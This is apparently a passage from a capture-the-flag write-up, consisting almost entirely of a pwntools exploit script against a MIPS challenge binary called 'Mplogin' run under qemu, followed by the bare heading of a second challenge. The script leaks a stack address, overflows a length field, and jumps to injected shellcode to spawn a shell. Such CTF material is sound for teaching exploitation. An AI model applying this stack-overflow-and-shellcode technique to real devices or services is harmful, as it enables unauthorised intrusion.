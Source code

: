 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'
#context.binary=ELF('./Mplogin')
#p = process(["qemu-mipsel","-L","./","-g","1234","./Mplogin"])
p = process(["qemu-mipsel","-L","./","./Mplogin"])

ru('Username :')
pl='admin'
pl=pl.ljust(24,'a')
s(pl)
ru('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(r(4))
leak('stack ',stack)
pl="access".ljust(0x14,"b")+p32(0x100)
sa("Pre_Password : ",pl)
pl="0123456789".ljust(0x28,"c")+p32(stack)+asm(shellcraft.sh())
ru("Password : ")
s(pl)
itr()
```

## DASCTF X 0psu3 shaopi (mipsrop)

### 思路
